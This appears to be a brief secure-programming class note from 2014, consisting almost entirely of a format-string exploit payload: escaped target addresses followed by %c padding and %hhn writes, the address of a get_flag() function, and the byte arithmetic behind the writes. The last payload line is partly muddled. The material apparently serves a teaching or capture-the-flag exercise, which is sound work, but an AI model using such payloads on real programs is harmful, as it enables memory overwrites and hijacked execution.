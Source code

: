 ```yaml
---
title: Secure Programming 2014-10-28
category: note
slug: secure-programming-20141028
date: 2014-10-28
---
```

2014/10/28 Secure Programming Class Note

```text
\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100 c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn
get_flag(): 0x0804861d
29      %29c
134     %105c
4       %97c
8       %97c
%29c$hhn%105$hhnc%97c$hhn%97c$hhn
```

